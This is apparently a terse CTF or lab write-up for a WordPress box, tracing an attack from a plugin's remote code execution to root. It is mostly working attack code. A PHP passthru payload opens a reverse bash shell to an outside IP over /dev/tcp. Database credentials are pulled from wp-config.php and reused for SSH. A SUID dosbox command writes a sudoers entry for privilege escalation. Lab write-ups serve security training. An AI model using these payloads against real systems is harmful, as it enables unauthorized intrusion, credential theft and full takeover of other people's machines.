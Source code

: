 # wpscan -> plugin -> RCE

### Payload by PHP passthru
```python
payload = '<?php passthru("bash -i >& /dev/tcp/192.168.118.8/80 0>&1"); ?>'
```

Most important part. Because the exploit won't work properly as a webshell or others.

### Lateral movement
`wp-config.php` reused creds for ssh

```php
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
```

### Root
SUID /usr/bin/dosbox

```bash
/usr/bin/dosbox -c 'mount c /' -c "echo commander ALL=(ALL) ALL >c:$LFILE" -c exit
```

* https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/

VNC 5901 ssh local port forward is optional.